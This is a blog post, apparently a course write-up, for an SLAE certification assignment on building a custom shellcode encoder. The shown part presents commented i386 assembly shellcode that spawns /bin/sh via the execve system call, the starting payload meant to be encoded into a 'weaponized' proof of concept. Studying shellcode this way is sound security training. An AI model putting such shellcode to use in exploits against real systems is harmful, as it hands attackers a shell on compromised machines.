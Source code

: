 ```yaml
---
title: "Assignment #4: A custom encoder"
tags: [slae, shellcode, encoder, xor, assembler, i386]
comments: true
share: true
order: 4
---
```


The fourth assignment for SLAE certification is to create a custom encoding
scheme and create a weaponized PoC using che execve-stack assembler code.

The assignment was written on an Ubuntu Linux 18.04, with a Linux kernel 4.15
version.

## The starting payload

We start our weaponized proof of concept from this assembler code

{%highlight assembly%}
; Filename: 	execve.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Blog post:  	https://codiceinsicuro.it/slae/
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	This is the default payload for the customer encoder demo. It
; 		will execute "/bin/sh" using execve() system call.

global _start			

section .text

_start:
	xor eax, eax		; init EAX to 0
	push eax		; pushing 0 to the stack to be used as NULL
				; ending character for /bin/sh string
	
	; execve is defined as #define __NR_execve 11 in 
	; /usr/include/i386-linux-gnu/asm/unistd_32.h:
	;
	; system call prototype is: 
        ; int execve(const char *filename, char *const argv[], 
	; 		char *const envp[]);

	push 0x68732f2f		; pushing //bin/sh into the stack
	push 0x6e69622f		; the init double / is for alignment purpose

	mov ebx, esp		; pointer to *filename

	; I will optimize further my execve-stack shellcode. Since I don't care
	; about passing parameters to my shell and to pass the environment
	; pointer, I can initialize to zero both ECX and EDX registers.
	;
	; This will be equivalent to the call: execve("/bin/sh", 0, 0) that it
	; is legit.
	xor ecx, ecx
	xor edx, edx

	mov al, 0xb		; execve = 11
	int 0x80
{%endhighlight%}
